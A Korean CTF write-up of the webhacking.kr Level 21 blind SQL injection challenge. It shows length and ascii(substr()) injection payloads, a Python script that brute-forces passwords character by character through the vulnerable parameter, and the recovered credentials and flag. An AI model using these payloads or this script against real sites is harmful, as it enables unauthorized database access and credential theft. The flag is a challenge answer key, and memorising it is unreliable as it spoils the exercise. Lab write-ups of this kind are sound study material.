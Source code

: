 ```yaml
---
title: "[Web.kr]Level 21"
tags: [wargame, webhacking.kr(old), writeup]
author: eli_ez3r
key: 20180903
modify_date: 2018-09-03
article_header:
  type: cover
  image:
    src: 
---
```


<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726144412211.png" width="400px">

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726144840924.png" width="400px">

Blind SQL Injection이라고 되어 있다. 주소창을 보니 no, id, pw값을 입력받고 있다.

no에 숫자들을 입력해 보니 True라고 나오는 숫자는 1과 2뿐이다. 따라서 id값은 1과 2이다.

이제 각 id에 맞는 id와 pw를 찾아내야 한다.

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726145056313.png" width="300px">

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726145219268.png" width="300px">

`1 and length(id)=5` 를 이용하여 id의 길이가 5인 것과, pw의 길이가 5인 것을 알아 냈다. 똑같은 방법으로 no가 2인 id와 pw의 길이도 알아내면 id는 5, pw는 19의 길이를 가지고 있다.

|  no  |  id   |   pw   |
| :--: | :---: | :----: |
|  1   | ? (5) | ? (5)  |
|  2   | ? (5) | ? (19) |



이제 아이디를 찾아보자. 보통 5의 길이를 가진 id는 'admin'이 있다. 이를 예측해보고 no=1의 id를 substr()를 이용하여 찾아보자.

`1 and ascii(substr(id, 1, 1))=97` 

위 명령어는 no가 1이고, id의 첫번째 인덱스에서 1byte가 ascii코드로 97('a')인지 확인하는 명령어이다.

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726145852871.png" width="300px">

생각처럼 no=1의 id는 'admin'이 아닌것 같다. 하지만 같은 방식으로 no=2의 id를 비교해보니 'admin'이 맞았다.

|  no  |    id     |   pw   |
| :--: | :-------: | :----: |
|  1   |   ? (5)   | ? (5)  |
|  2   | admin (5) | ? (19) |

이렇게 하나하나씩 다 비교해 보는 것은 매우 힘든일이다. 한글자 마다 ascii코드 33부터 136까지 다 비교해봐야 하기 때문이다. 

```python
import requests

url = 'http://webhacking.kr/challenge/bonus/bonus-1/index.php?'
cookie={'PHPSESSID':'b82bba458acf3b6fd70126be82c02e2f'}
pw = ''

# no=1
for i in range(1, 6):
    for j in range(33, 137):
        query = "no=1 and ascii(substr(pw,"+str(i)+" ,1))="+str(j)
        payload = url+query
        print("Password Parsing : "+pw+chr(j))
        res = requests.get(payload, cookies=cookie)
        if((res.text).find("True")>0):
            pw += chr(j)
            print("Find PW : "+pw)
            break

print("[+]Finish Password Parsing...")
print("Password : "+pw)
```

힘든건 컴퓨터한테 시키면 된다.

|  no  |    id     |            pw            |
| :--: | :-------: | :----------------------: |
|  1   |   ? (5)   |        guest (5)         |
|  2   | admin (5) | blindsqlinjectionkk (19) |

no=1의 pw를 찾다보니 비밀번호 한자리씩 파싱하는데 시간이 1-2초씩 소비하였다. 5글자 알아내는대도 5분정도 걸린것 같다. no=2의 pw는 소문자 일것으로 추측하고 경우의 수를 줄여 파싱을 진행하였다. (시간은 금이니까 😏)

##### **flag = blindsqlinjectionkk**

